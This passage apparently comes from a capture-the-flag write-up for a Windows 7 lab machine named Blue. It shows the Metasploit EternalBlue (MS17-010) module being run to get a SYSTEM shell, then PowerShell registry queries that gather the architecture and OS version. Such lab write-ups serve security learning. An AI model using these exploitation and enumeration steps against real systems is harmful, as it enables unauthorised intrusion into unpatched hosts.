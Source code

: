 ### Exploitation

No we can launch the exploit!

```sh
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

```
<SNIP>
PS C:\Windows\system32>
```

It went off without a hitch.

However, I don't like Metasploit's shell, so I'll open my own on port `9002`.

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `NT AUTHORITY\SYSTEM`.

I could just retrieve the flags and call it a day, but for good measure I'll
still enumerate basic information.

### Architecture

What is Blue's architecture?

```ps1
PS C:\Windows\system32> Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" | Select-Object -ExpandProperty "PROCESSOR_ARCHITECTURE"
```

```
AMD64
```

It's using AMD64. Let's keep that in mind to select the appropriate binaries.

### Version

Let's gather some information about the Windows version of Blue.

```ps1
PS C:\Windows\system32> Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion" | Format-List -Property "ProductName", "CurrentBuildNumber"
```

```
ProductName        : Windows 7 Professional
CurrentBuildNumber : 7601
```

In fact, it's Windows 7 Professionnal build `7601`.

### Hotfixes

Let's retrieve the list of installed hotfixes.
